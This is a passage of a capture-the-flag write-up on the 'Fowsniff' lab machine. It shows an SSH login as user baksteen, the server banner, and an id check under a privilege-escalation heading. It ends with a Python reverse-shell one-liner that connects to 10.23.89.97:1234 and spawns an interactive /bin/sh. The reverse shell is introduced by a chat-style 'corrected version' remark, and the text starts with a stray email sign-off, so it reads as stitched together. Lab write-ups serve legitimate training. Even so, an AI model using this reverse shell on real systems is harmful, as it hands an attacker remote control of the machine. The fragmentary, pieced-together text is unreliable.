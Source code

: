 ```jsx

Thanks,
A.J Stone

.

```

## Privilege Escalation

```jsx
─$ ssh baksteen@10.10.145.107
The authenticity of host '10.10.145.107 (10.10.145.107)' can't be established.
ED25519 key fingerprint is SHA256:KZLP3ydGPtqtxnZ11SUpIwqMdeOUzGWHV+c3FqcKYg0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.145.107' (ED25519) to the list of known hosts.
baksteen@10.10.145.107's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions

   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.

Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
baksteen@fowsniff:~$
```

In Python, the IP address in the tuple for the socket connection must be a string. Here's the corrected version:

```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.23.89.97",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

```

---